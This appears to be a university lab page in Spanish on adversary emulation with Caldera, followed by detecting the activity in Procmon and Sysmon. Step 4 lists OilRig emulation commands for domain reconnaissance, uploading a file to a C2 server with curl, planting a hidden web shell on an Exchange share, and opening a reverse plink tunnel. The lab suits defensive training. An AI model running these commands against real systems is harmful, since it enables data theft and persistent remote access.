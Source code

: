 ```yaml
---
title: Clase 11 - Caldera && Promon/Sysmon (Parte 3)
date: 2024-12-05 00:20:00 -0500
categories: [Cybersecurity,Ethical Hacking,Pentesting,Exploitation Techniques]
tags: [Examen Parcial, evaluation]     # TAG names should always be lowercase
---
```


<!-- <hr style="border: none; height: 10px; background-color: #003b00;" />

# <font color="#87CEEB">Examen Parcial.</font>

<hr style="border: none; height: 10px; background-color: #003b00;" /> -->

## Lab Setup

![alt text](/assets/images/caldera-setup.png)

## Pasos

1. Desde el Kali Linux, inicie el servidor Caldera
2. Desde la máquina de Windows, gestionar Caldera. En el `browser`, ingresar a la siguiente dirección:
    ```
    http:/<IP del Kali Linux>:8888
    ```
3. Desplegar un `Agente de Caldera` en la Máquina de Windows. De ser necesario, desactivar el Firewall de Windows.
4. Crear un Adversario de Prueba. Configurar el Adversario con un Skill (Se revisa en clase). Documentación [Link](https://github.com/center-for-threat-informed-defense/adversary_emulation_library)

    ```bash
    cat oilrig_windows_commands.txt 
    cscript /nologo computername.vbs
    cscript /nologo username.vbs
    whoami
    hostname
    ipconfig /all
    net user /domain
    net group /domain
    net group "domain admins" /domain
    net group "Exchange Trusted Subsystem" /domain
    net accounts /domain
    net user
    net localgroup administrators
    netstat -na
    tasklist
    sc query
    systeminfo
    reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"
    net user #{initial.target.user} /domain
    net group "SQL Admins" /domain
    nslookup #{second.target.host}
    C:\Users\#{initial.target.user}\AppData\local\SystemFailureReporter\b.exe
    curl -F "data=@C:\Users\#{initial.target.user}\AppData\Roaming\fsociety.dat" --header "X-Request-ID: #{initial.target.user}-#{paw}" #{server}/file/upload
    copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\contact.aspx C:\Users\Public\contact.aspx
    copy C:\Users\Public\contact.aspx "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"
    attrib +h "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx"
    copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\plink.exe C:\Users\Public\Downloads\plink.exe
    exec-background C:\Users\Public\Downloads\plink.exe -no-antispoof -ssh -N -R #{caldera.server.ip}:13389:#{second.target.ip}:3389 -l #{caldera.user.name} -pw "#{caldera.user.password}" #{caldera.server.ip}
    del C:\Users\gosta\AppData\Roaming\fsociety.dat C:\Users\Public\Downloads\plink.exe;
    curl -s -H "KEY:#{server.api.key}" -H "Content-Type: application/json" -X PATCH http://#{caldera.server.ip}:8888/api/v2/agents/#{paw} -d "{\"watchdog\":1}"
    ```

5. Crear una Operación de Prueba usando el adversario recientemente creado.
6. Ejecutar la operación.
7. Analizar en Procmon (Python?).
8. Crear y activar el respectivo filtro en Sysmon.
9. Realizar una nueva operación.
10. Comprobar que Sysmon está filtrando los eventos deseados. Discutiremos problemas encontrados.
11. Analizar los eventos en Procmon y en Sysmon (Event Viewer).
12. Python Coding (Jupyter Notebooks).
